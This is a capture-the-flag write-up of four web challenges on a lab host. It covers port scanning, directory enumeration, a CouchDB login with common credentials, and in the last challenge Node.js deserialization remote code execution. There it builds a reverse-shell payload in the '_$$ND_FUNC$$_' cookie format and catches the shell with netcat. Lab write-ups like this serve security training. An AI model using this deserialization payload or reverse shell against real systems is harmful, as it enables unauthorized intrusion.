

# CTFFriday 2020 August Week 4

* Date: 28th August 2020
* Time: 2:00 to 3:00 PM


## Overview

There were 4 challenges in this CTF related to web. CouchDB was used at the backend and we exploited Node JS deserialization to get the final flag.

## Tools Used
- BurpSuite
- Nmap
- Dirb


I started the CTF with port scanning using nmap tool.

```nmap -p- 10.8.0.14```

<kbd></kbd> 

## First Challenge

```
Description:

Sale team will help you to solve the first flag.

http://10.8.0.14/
```

In the challenge description, I got an URL and I visited that URL.

<kbd></kbd>

I also got the hint that "Sales" team will help me to get the flag so I enumerated the directories using **dirb** tool.

```dirb http://10.8.0.14/```
 
<kbd></kbd>

I visited the "sales" directory and I got the first flag.

<kbd></kbd>

*Flag : nsctf{Y0u_S0lved_Easy_fl@g!}*

## Second Challenge

```
Description:

Find out sales team's confidential details which stored on same server.
```

I clicked on "Confidential Details" button because challenge description says that I need to check confidential details.

<kbd></kbd>

After reading ```confidentials.txt``` file, I got the idea that **CouchDB** is used at backend and I need to login using common username and password combination. From the nmap scan we also got that port number ```5984``` is open and it is the default port of CouchDB. Now I need to find the login page. So I searched a bit regarding the default login page of CouchDB and I got that I need to visit the ```_utils``` directory.

<kbd></kbd>

I used  our common username and password for login. After login, I found one database named ```flag```.

<kbd></kbd>

 In ```permissions``` configuration of the database I got the flag.

<kbd></kbd>

*Flag : nsctf{S0m3_pr0+ect!0n_!5_b3tt3r_th@n_n0n3}*

## Third Challenge

```
Description:

HR Team store offer letter on vulnerable server. Its leaked by someone.
```

After that I checked the ```links``` database.

<kbd></kbd>

There were 4 documents in links database. Each document contains a directory link.

<kbd></kbd>

From the description, I got the idea that I have to look for HR directory.

<kbd></kbd>

So I visited the ```HR-Team/offer-letters.html```. There were 5 PDF links and I visited each link.

<kbd></kbd>

In 4th PDF, I found the third flag.

<kbd></kbd>

*Flag : nsctf{Y3s_You_d!d_!+!}*

## Fourth Challenge

```
Description:

Detect the vulnerability in HR page and exploit it to get the flag!
```

From nmap scan, I found that port number 3000 is open. So I visited that port from the web browser. It was asking for username and password. I tried to login using common username and password.

<kbd></kbd>

After login, application was showing "Under progress" page.

<kbd></kbd>

I intercepted the the request of the same page and found that application is sending cookie in request. Send the request to Buro Suite repeater and observe the response. From response I came to know that it can be Node JS deserialization. So I tried to exploit this vulnerability to get Remote Code Execution.  

<kbd></kbd>

I used the [script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) from github to get the reverse shell.

<kbd></kbd>

Run the downloaded script to generate the payload.
```python nodejsshell.py <YOUR_IP> <LISTENING_PORT>```

<kbd></kbd>

Put the payload between ```{"rce":"_$$ND_FUNC$$_function (){ <YOUR_PAYLOAD> }()*}```.

<kbd></kbd>

Encode the payload in base64.

<kbd></kbd>

Now refresh the same page and intercept the request.

<kbd></kbd>

Start the listener using  ```nc -lvp 4444``` and replace the cookie value with your encoded payload and forward the request.

<kbd></kbd>

You got the reverse shell!!

<kbd></kbd>

Now you just need to observe the flag.

<kbd></kbd>

*Flag : nsctf{H3y_y0u_d!d_!t}*

## CTF Statistics

<kbd></kbd>
